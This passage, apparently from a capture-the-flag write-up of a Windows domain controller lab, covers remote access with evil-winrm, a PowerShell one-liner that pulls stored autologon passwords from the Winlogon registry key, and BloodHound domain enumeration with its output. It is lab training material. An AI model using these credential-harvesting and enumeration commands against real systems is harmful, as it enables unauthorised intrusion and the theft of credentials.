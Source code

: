 The wordlist I used `gegalist.txt` is just a combination of all the wordlists in **Seclists**.

### PowerShell Remoting with `fsmith`

we want to get **remote code execution** on the box, so we try **PowerShell Remoting** using a tool called `evil-winrm` (https://github.com/Hackplayers/evil-winrm). And are lucky :D

![we-can-winrm](we-can-winrm.jpg)

### Autologon creds for `svc_loanmgr`

*Looking around the box in the user profile and in the root directory,* we don't see much intersting information. *However, when we check for autlogon creds,* we do find interesting credentials for the `svc_loanmgr` user:

My **PowerShell one-liner**:
```
$ErrorActionPreference='SilentlyContinue';'DefaultDomainName', 'DefaultUserName', 'DefaultPassword', 'AltDefaultDomainName', 'AltDefaultUserName', 'AltDefaultPassword' | % {$Val = Get-ItemPropertyValue -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name $_ ;if($Val){Write-Host -ForegroundColor Green "[+] $_`: $Val"; Clear-Variable Val}else{Write-Host "[-] $_`: Not found"}}
```

![Autologon-creds](Autologon-creds.jpg)

This is amazing :D we now got two accounts!

### Enumeration with `BloodHound`

*Since this is an AD environment,* it's only natural that we run `BloodHound`. *This time,* we're going to use a python-based version called `bloodhound-python` (https://github.com/fox-it/BloodHound.py).

```
└─# bloodhound-python -u fsmith@EGOTISTICAL-BANK.LOCAL -d EGOTISTICAL-BANK.LOCAL -v -c All
Password:
DEBUG: Resolved collection methods: dcom, objectprops, acl, trusts, session, localadmin, psremote, rdp, group
DEBUG: Using DNS to retrieve domain information
DEBUG: Querying domain controller information from DNS
DEBUG: Using domain hint: EGOTISTICAL-BANK.LOCAL
INFO: Found AD domain: egotistical-bank.local
DEBUG: Found primary DC: SAUNA.EGOTISTICAL-BANK.LOCAL
DEBUG: Found Global Catalog server: SAUNA.EGOTISTICAL-BANK.LOCAL
DEBUG: Using LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
DEBUG: Using base DN: DC=egotistical-bank,DC=local
INFO: Connecting to LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
DEBUG: Authenticating to LDAP server
DEBUG: No LAPS attributes found in schema
DEBUG: Found KeyCredentialLink attributes in schema
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
DEBUG: Writing users to file: 20220408174125_users.json
```